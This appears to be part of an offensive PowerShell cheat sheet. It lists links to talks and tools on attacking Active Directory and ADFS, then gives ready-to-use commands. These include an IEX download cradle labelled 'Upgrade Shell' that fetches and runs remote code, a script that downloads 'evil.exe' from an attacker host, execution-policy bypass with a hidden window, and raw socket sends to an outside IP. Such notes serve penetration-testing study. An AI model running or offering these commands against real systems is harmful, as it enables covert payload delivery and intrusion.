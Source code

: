 [Compromise as a Service: our pleAZURE](https://www.youtube.com/watch?v=gxWqwX7LfbU)

##### Powershell Foo

> **Resources**

[Attacking ADFS Endpoints with PowerShell](http://www.irongeek.com/i.php?page=videos/derbycon6/118-attacking-adfs-endpoints-with-powershell-karl-fosaaen)

[PowerShell AD Recon](https://github.com/PyroTek3/PowerShell-AD-Recon)

[PowerShell Secrets and Tactics](https://www.youtube.com/watch?v=mPPv6_adTyg)

[An Intro to PowerShell and how to use it for Evil](https://www.youtube.com/watch?v=YSUJNInriiY)

[Offensive Active Directory with PowerShell](https://www.youtube.com/watch?v=cXWtu-qalSs)

[Low-Level Windows API Access From PowerShell - FuzzySecurity](http://www.fuzzysecurity.com/tutorials/24.html)

[PowerShell Unicorn](https://github.com/trustedsec/unicorn)

[Sherlock for Powershell](https://github.com/rasta-mouse/Sherlock)

> ###### Upgrade Shell

```
C:\> powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.10.1/file.txt')"
```

> ###### wget

```
echo $storageDir = $pwd > wget.ps1   
echo $webclient = New-Object System.Net.WebClient >> wget.ps1   
echo $url = "http://$ATTACKER/evil.exe" >> wget.ps1
echo $file = "new-exploit.exe" >> wget.ps1    
echo $webclient.DownloadFile($url,$file) >> wget.ps1

C:\> powershell.exe -ExecutionPolicy Bypass ‐NoLogo  ‐NonInteractive  ‐NoProfile ‐File wget.ps1
```

> ###### Execute ps1

```
C:\> powershell -exec bypass -windowstyle hidden -nop -file c:\path\to\file.ps1
```

> ###### Stream contents of file

```
C:\> Get-Item /path/to/file.zip -Stream *
```

> ###### Get permissions of directory/file

```
C:\> Get-ACL C:\path\to\file\or\directory
```

> ###### Packet testing

```
# TCP
# Setup TCP Listener ie: netcat
C:\> powershell -Command '$client = New-Object System.Net.Sockets.TcpClient;$client.Connect( "10.10.14.42", 8000 );[Byte[]] $packet = [Text.Encoding]::ASCII.GetBytes("pie")$client.Send($packet, $packet.Length);$client.Close();'

# UDP
# Setup UDP Listener ie: socat
C:\> powershell -Command '$client = New-Object System.Net.Sockets.UdpClient;$client.Connect( "10.10.14.42", 8000 );[Byte[]] $packet = [Text.Encoding]::ASCII.GetBytes("pie");$client.Send($packet, $packet.Length);$client.Close();'

```